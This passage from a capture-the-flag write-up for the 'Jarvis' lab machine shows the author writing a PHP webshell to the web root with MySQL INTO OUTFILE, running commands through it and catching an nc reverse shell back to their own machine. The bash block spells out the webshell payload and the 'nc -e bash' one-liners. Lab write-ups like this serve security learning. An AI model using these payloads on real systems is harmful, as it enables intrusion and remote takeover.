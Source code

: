 <br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have found a possible attack vector to try to access the system, I'm going to upload a **webshell** to the server to facilitate the **RCE**. Once again, I use the MySql **into outfile** statement to upload the malicious **.php** script and I can now execute commands from my browser, next I verify that connectivity from the target to my attacking machine **is allowed**, by sending a trace with `ping` and sniffing my network with `tcpdump` waiting for incoming packets. Finally I use a **[PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** oneliner to catch the incoming reverse shell with `nc` on port **443** of my machine, on my first attempt the connection falls so I had to use the enhanced functionality of `nc` using the **-c** parameter. Finally I succeed to access the system and perform my first enumeration commands.

```bash
# SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php"
# http://10.10.10.143/shell.php?cmd=whoami
# http://10.10.10.143/shell.php?cmd=hostname
# http://10.10.10.143/shell.php?cmd=hostname -I

tcpdump -i tun0 icmp -n
# http://10.10.10.143/shell.php?cmd=ping -c 2 10.10.14.3

nc -nlvp 443
# http://10.10.10.143/shell.php?cmd=nc -e bash 10.10.14.3 443
# http://10.10.10.143/shell.php?cmd=nc -c bash 10.10.14.3 443
# :)

whoami
hostname -I
```

<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

